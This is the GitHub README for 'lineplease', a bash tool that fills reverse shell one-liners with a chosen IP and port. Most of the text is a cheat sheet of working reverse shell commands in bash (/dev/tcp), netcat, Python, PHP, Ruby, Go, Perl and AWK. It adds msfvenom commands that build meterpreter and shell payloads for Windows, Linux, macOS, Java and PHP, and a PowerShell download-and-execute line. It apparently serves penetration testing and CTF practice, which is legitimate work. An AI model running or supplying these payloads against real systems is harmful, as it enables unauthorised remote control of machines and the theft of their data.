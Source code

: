 
                      __   _____  ______
                     / /  /  _/ |/ / __/
                    / /___/ //    / _/  
         ___  __   /____/___/_/|_/___/  
        / _ \/ /  / __/ _ | / __/ __/   
       / ___/ /__/ _// __ |_\ \/ _/     
      /_/  /____/___/_/ |_/___/___/  

"You thought your secrets were safe...you..ehmm...line please!!"

# lineplease

Lineplease is a helper script (bash) designed to simplify the process of grabbing reverse shell oneliners from the web<br>
and changing them to fit whatever need.
<br>
Started out as a simple personal tool to help my own lazy self but grew into a somewhat comprehensive list of lines<br>
easily served up on the command line.<br>
Most if not all creds goes to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for the actual lines.<br>
<br>
Enjoy!
<br>
## installation
```git clone https://github.com/rub3rth/lineplease ```<br>
<br>
clipboard function requires xsel package<br>
```sudo apt-get install xsel```
# example usage
## for reverse shell line<br>
```./lineplease.sh [options] [interface] [port] ```<br><br>
example:<br>
```./lineplease.sh -b eth0 1337```<br>
<br>
ipv4-address on desired interface is inserted into line<br> 
for public ip specify interface as ```pub```<br><br>
when prompted:<br>
```y``` to copy line to clipboard (requires xsel) or any other key to continue <br>
```y``` to start netcat listener or any other key to exit<br>
## for msfvenom (requires msfvenom)<br>
```./lineplease.sh [options] [interface] [port] [name] ```<br><br>
example:<br>
```./lineplease.sh -m2 tun0 1337 rev```<br>
<br>
when prompted:<br> 	
```y``` to create file or any other key to exit<br>
## demo
![Demo](https://i.imgur.com/FNTWSY6.gif)
## options
``` 
-h 		display this page
example:	./lineplease.sh -h

OPTIONS		-----------------------------------

BASH
-b      	bash -i >& /dev/tcp/[ip]/[port] 0>&1
-be		0<&196;exec 196<>/dev/tcp/[ip]/[port]; sh <&196 >&196 2>&196
-bc     	bash -c 'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

NETCAT
-n      	nc -e /bin/bash [ip] [port]
-ns		nc -e /bin/sh [ip] [port]
-nc		nc -c bash [ip] [port]

PYTHON
-py1		export RHOST="[ip]";export RPORT=[port];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
-py2		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
-py3		python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 

PHP
-p1		php -r '$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-p2		php -r '$sock=fsockopen("[ip]",[port]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
-p3		php -r '$sock=fsockopen("[ip]",[port]);`/bin/sh -i <&3 >&3 2>&3`;'
-p4		php -r '$sock=fsockopen("[ip]",[port]);system("/bin/sh -i <&3 >&3 2>&3");'
-p5		php -r '$sock=fsockopen("[ip]",[port]);passthru("/bin/sh -i <&3 >&3 2>&3");'
-p6		php -r '$sock=fsockopen("[ip]",[port]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
-p7		php -r '$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

RUBY
-r		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-rw		ruby -rsocket -e 'c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'	(windows only)

GOLANG
-g		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","[ip]:[port]");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

PERL
-pe		perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-pe2		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'			
-pw		perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'	(windows only)

AWK
-a		awk 'BEGIN {s = "/inet/tcp/0/[ip]/[port]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

POWERSHELL
-ps1            too long and messy to print out here
-ps2            same goes for this one

MSFVENOM UNSTAGED
-m1 		msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2		msfvenom -p linux/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-m3     	msfvenom -p osx/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f macho > [name].macho
-m4		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].jsp
-m5		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f war > [name].war
-m6		msfvenom -p cmd/unix/reverse_python LHOST=[ip] LPORT=[port] -f raw > [name].py
-m7		msfvenom -p cmd/unix/reverse_bash LHOST=[ip] LPORT=[port] -f raw > [name].sh
-m8		msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=[port] -f raw > [name].pl

MSFVENOM STAGED
-m1s    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2s    	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-mas    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f asp > [name].asp
-mps		msfvenom -p php/meterpreter_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].php; cat [name].php | xsel --clipboard --input && echo '<?php ' | tr -d '\n' > [name].php && xsel --clipboard --output >> [name].php
                (requires xsel)

LAZY OPTIONS
-pl2		python -c 'import pty; pty.spawn("/bin/bash")'
-pl3 		python3 -c 'import pty; pty.spawn("/bin/bash")'

		loads up line for python shell upgrade

		usage:		./lineplease.sh -pu2
                when prompted:  y to copy to clipboard (requires xsel)/any other key to exit

-psd		powershell "IEX(New-Object Net.WebClient).downloadString('http://[ip]:[port]/[filename]')"

		loads up a powershell command to download the file linpeas.sh from ip address of eth0

		usage:		./lineplease.sh -psd [interface] [port] [filename]
		example:	./lineplease.sh -psd eth0 1337 linpeas.sh
		when prompted:	y to copy to clipboard (requires xsel)/any other key to continue
		when prompted:	y to start web server in current directory/any other key to exit 
```



